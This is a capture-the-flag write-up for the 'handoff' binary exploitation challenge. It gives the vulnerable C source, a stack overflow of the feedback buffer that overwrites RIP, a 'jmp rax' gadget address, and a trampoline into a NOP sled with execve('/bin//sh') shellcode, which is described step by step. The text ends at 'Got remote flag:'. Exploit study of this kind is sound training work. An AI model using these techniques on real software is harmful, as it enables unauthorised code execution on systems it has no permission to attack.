## handoff
 

**Description**

No description provided.

**Write-up**
Binary protections:


Challenge source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

#define MAX_ENTRIES 10
#define NAME_LEN 32
#define MSG_LEN 64

typedef struct entry {
	char name[8];
	char msg[64];
} entry_t;

void print_menu() {
	puts("What option would you like to do?");
	puts("1. Add a new recipient");
	puts("2. Send a message to a recipient");
	puts("3. Exit the app");
}

int vuln() {
	char feedback[8];
	entry_t entries[10];
	int total_entries = 0;
	int choice = -1;
	// Have a menu that allows the user to write whatever they want to a set buffer elsewhere in memory
	while (true) {
		print_menu();
		if (scanf("%d", &choice) != 1) exit(0);
		getchar(); // Remove trailing \n

		// Add entry
		if (choice == 1) {
			choice = -1;
			// Check for max entries
			if (total_entries >= MAX_ENTRIES) {
				puts("Max recipients reached!");
				continue;
			}

			// Add a new entry
			puts("What's the new recipient's name: ");
			fflush(stdin);
			fgets(entries[total_entries].name, NAME_LEN, stdin);
			total_entries++;
			
		}
		// Add message
		else if (choice == 2) {
			choice = -1;
			puts("Which recipient would you like to send a message to?");
			if (scanf("%d", &choice) != 1) exit(0);
			getchar();

			if (choice >= total_entries) {
				puts("Invalid entry number");
				continue;
			}

			puts("What message would you like to send them?");
			fgets(entries[choice].msg, MSG_LEN, stdin);
		}
		else if (choice == 3) {
			choice = -1;
			puts("Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: ");
			fgets(feedback, NAME_LEN, stdin);
			feedback[7] = '\0';
			break;
		}
		else {
			choice = -1;
			puts("Invalid option");
		}
	}
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);  // No buffering (immediate output)
	vuln();
	return 0;
}
```

Dynamically testing the application.



- `print_menu` is not interesting.
- `main` is not interesting.
- `vuln` executes all the interesting code.
    - option 1 add's a new recipient, with a maximum limit of 10.
        - the struct field `name` is overflown, `NAME_LEN` is 32 but the declared field is `8`.
    - option 2, add's user input to the `msg` field of the selected recipient.
    - option 3, overflows field `feedback` of size 8 with input size `NAME_LEN` 32. However, it terminates the character 7 with a NULL byte.

Option 3 allows to overflow the register RIP. RIP is overflown after 20 characters of `feedback`.




The question at this point is overflow RIP with what?
    - There is no "win" function in the binary.
    - There is no way to "leak" pointer of libc. (Althought PIE is disabled for binary, libc is still subject to ASLR)

A possible option right now is to use a ROP (return-oriented programming) chain, which abuses "gadgets" to execute code when NX (no-execute) protection is enabled. Gadgets are pieces of code that exist in the executable section of the binary, end in the `return instruction` 0xC3 and have possibly interesting instructions before, e.g. `pop rax; ret`. When the instruction `ret` is executed it pop's from the stack the next `RIP`, which could be the address of the next `ROP gadget`. With this information in mind, is possible to build a chain of carefully selected gadgets to exploit the application. Such as popping, the necessary values in the registers and doing a syscall to `execve` (constant 59).


In this case, `NX` is disabled for the binary. However, just to reach `RIP` in stack it takes 20 bytes, remaining only 12 bytes available for shellcode in stack. With the additional fact that byte 7 will be zeroed, making this a little bit annoying.


Both techniques could end up being mixed. E.g. if I wrote the shellcode in the `name` or `msg` field of the `entry_t` struct and used a ROP gadget such as `0x000000000040116c : jmp rax` to change the execution flow.

All the information is written into the stack frame of function `vuln`.  Analyzing the stack, the `name` field is written in stack at `0x7fffffffda90` and `RIP` is at `0x7fffffffdd78`, having a difference of 744 bytes.
    - entries: 72*10 = 720
    - feedback: 8
    - total of: 736 bytes until RBP. Another 8 for RIP.

Placing the shellcode at RIP won't be possible only having 12 bytes available to write, therefore I must use ROP to jump to the shell code.

Searching for `call` or `jmp` gadgets found some that would execute code from wherever `RAX` is pointing too:


Testing in GDB is possible to see the Gadget is working and is attempting to jump to `0x41414141414140c9` because RAX holds the pointer `0x7ffc5193a994`.



RAX is already pointing to user controlled data because the return value of `fgets` is a pointer to buff, where the feedback is.



Can not directly insert in this buff the shellcode. Even the smallest shellcode I could find of 23 bytes overwrites 3 bytes of the ROP gadget. Making it unfeasible to have the shellcode in the `feedback`.


However by this point we know we control 3 registers, RAX (fgets buff ptr), RBP (overwrite) and RIP (overwrite).
    - The most obvious solution at this point, since we know RAX points to `feedback` buff, is to have there the pointer to shellcode. However ASLR is still enabled for the stack memory.

- After searching for a bit, could not immediately identify any combination of available gadgets to make RAX jump somewhere in stack without passing directly an address, and as previously seen, passing a stack address is not reliable because of ASLR.
    - However at this point I had an ideia, could use the `jmp RAX` gadget to execute shellcode in the `feedback` buff, but that shellcode would just be a "trampoline" for the real shellcode.

- At the moment came with this flow:
	- Overflowed RIP with address of gadget `jmp RAX`. 
	- RAX points to shellcode in `feedback` buffer because of `fgets` function return value. 
	- Shellcode will do some operations like manipulating `RAX` value and then `jmp RAX`. 
	- Manipulated `RAX` to land in a `NOP` sled that leads to a `execve` syscall. 
	- At this point however the exploit was crashing, `syscall` was returning an error. 

- The `execve` syscall does the following:
	- clears `rdx`
	- moves the value `0x68732f2f6e69622f` into `rbx`. The value is `bin//sh` in little endian, also 2 `/` to make it exactly 8 bytes.
	- pushes `rbx` into stack.
	- pushes `rsp` into stack.
	- pop's `rsp` into `rdi`, this way the argument `path` of `execve` contains a pointer to the string `bin//sh`.
	- moves the value `0x3b` to `al`. The `execve` code.
	
	

- The involved registers in the call are: `rax`, `rdi`, `rsi` and `rdx`.
	- `rax` -> execve id, correct.
	- `rdx` -> `*envp`, NULL.
	- `rsi` -> `*argv`
	- `rdi` -> `*path`, correct.


To debug manually played with the registers values to observe if the error code was due to incorrect values.
	- 2 major changes I did, was "terminate" the string where `rdi` was pointing, there were non NULL bytes after and,
	- changed value of `rsi` to also point to `/bin/sh` string.


Still got an error.


After some trial and error, identified the root problem being the argument `rsi`, implemented necessary changes and executed binary. App was able to start a new shell.



Got remote flag:
